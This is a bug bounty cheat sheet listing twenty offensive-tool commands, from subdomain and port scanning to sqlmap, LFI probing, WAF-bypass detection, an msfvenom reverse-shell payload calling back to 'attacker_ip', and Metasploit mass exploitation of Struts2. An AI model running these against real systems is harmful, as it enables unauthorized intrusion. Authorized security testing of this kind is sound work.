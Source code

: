 Bug Bounty Automation – 20 Steps with Explanations

⚠️ Disclaimer: This content is for educational purposes only.
Use it responsibly and only on authorized systems / bug bounty platforms.
-------------------------------------------------------------------------
1. Automated Subdomain Enumeration

Why: Subdomains expand the attack surface; some may be forgotten or weak.
Tools: subfinder, amass, assetfinder
Example:

subfinder -d target.com -o subs.txt
amass enum -passive -d target.com -o subs.txt
assetfinder --subs-only target.com

-------------------------------------------------------------------------
2. Automated Port Scanning

Why: Open ports expose services which may be exploitable.
Tools: masscan (fast), nmap (detailed)
Example:

masscan -p1-65535 target.com --rate=10000 -oG ports.txt
nmap -p- -sV -T4 target.com -oN nmap.txt

-------------------------------------------------------------------------
3. Automated Screenshot Capture

Why: Visual reconnaissance helps quickly spot interesting web apps.
Tools: aquatone, eyewitness
Example:

aquatone -out screenshots < subs.txt
eyewitness -f subs.txt

-------------------------------------------------------------------------
4. Automated Directory Brute Forcing

Why: Hidden directories may reveal sensitive files or admin portals.
Tools: ffuf, gobuster
Example:

ffuf -u https://target.com/FUZZ -w wordlist.txt
gobuster dir -u https://target.com -w wordlist.txt

-------------------------------------------------------------------------
5. Automated JavaScript Analysis

Why: JavaScript files may contain endpoints, keys, or API URLs.
Tools: LinkFinder, gf
Example:

python3 linkfinder.py -i target.js -o results.html
cat urls.txt | gf api-keys

-------------------------------------------------------------------------
6. Automated Parameter Discovery

Why: Hidden parameters can expose injection points like SQLi or XSS.
Tools: ParamSpider, arjun
Example:

python3 paramspider.py --domain target.com
arjun -u https://target.com/page.php

-------------------------------------------------------------------------
7. Automated XSS Detection

Why: XSS allows script injection, leading to credential theft or session hijacking.
Tools: dalfox, XSStrike
Example:

dalfox file params.txt
python3 xsstrike.py -u "https://target.com/page.php?param=test"

-------------------------------------------------------------------------
8. Automated SQL Injection Testing

Why: SQLi may allow database access and full compromise.
Tool: sqlmap
Example:

sqlmap -u "https://target.com/page.php?id=1" --dbs

-------------------------------------------------------------------------
9. Automated SSRF Discovery

Why: SSRF tricks servers into sending requests to internal/external systems.
Tools: gopherus, interactsh
Example:

gopherus --exploit mysql
interactsh-client -v

-------------------------------------------------------------------------
10. Automated LFI/RFI Detection

Why: LFI/RFI may allow file reading or remote code execution.
Tools: LFISuite, fimap
Example:

python3 lfisuite.py -u "https://target.com/index.php?page=home"
fimap -u "https://target.com/page.php?file=abc"

-------------------------------------------------------------------------
11. Automated Open Redirect Detection

Why: Open redirects can be abused for phishing or bypassing filters.
Tool: Oralyzer
Example:

python3 oralyzer.py -l urls.txt -p payloads.txt

-------------------------------------------------------------------------
12. Automated Security Headers Check

Why: Missing headers increase risk of XSS, clickjacking, etc.
Tools: nikto, httpx
Example:

nikto -h target.com
httpx -u https://target.com -sc -title -server

-------------------------------------------------------------------------
13. Automated API Recon

Why: APIs often expose sensitive data or endpoints.
Tools: Postman, kiterunner
Example:

kr scan https://target.com/api -w api-endpoints.txt

-------------------------------------------------------------------------
14. Automated Content Discovery

Why: Historical URLs may reveal old vulnerable endpoints.
Tools: gau, waybackurls
Example:

gau target.com > urls.txt
waybackurls target.com >> urls.txt

-------------------------------------------------------------------------
15. Automated S3 Bucket Enumeration

Why: Misconfigured S3 buckets can leak data/configs.
Tool: AWSBucketDump
Example:

python3 AWSBucketDump.py -l buckets.txt

-------------------------------------------------------------------------
16. Automated CMS Enumeration

Why: CMS versions may have known vulnerabilities.
Tool: CMSeek
Example:

python3 cmseek.py -u https://target.com

-------------------------------------------------------------------------
17. Automated WAF Detection

Why: Knowing WAF type helps bypass protections.
Tool: wafw00f
Example:

wafw00f https://target.com

-------------------------------------------------------------------------
18. Automated Info Disclosure Detection

Why: Exposed .git repos/configs leak sensitive data.
Tool: GitDumper
Example:

./gitdumper.sh https://target.com/.git/ ./output

-------------------------------------------------------------------------
19. Automated Reverse Shell Generation

Why: Used for post-exploitation to gain remote access.
Tool: msfvenom
Example:

msfvenom -p php/meterpreter/reverse_tcp LHOST=attacker_ip LPORT=4444 -f raw > shell.php

---------------------------------------------------------------------------------------
20. Automated Mass Exploitation with Metasploit

Why: Automate exploitation across multiple systems.
Tool: Metasploit Framework
Example:

use exploit/multi/http/struts2_content_type
set RHOSTS targets.txt
run

-------------------------------------------------------------------------
📜 Conclusion

Automation = faster recon, scanning, and exploitation.
Focus shifts from repetitive tasks to deeper vulnerability analysis.
Use responsibly on authorized targets only.
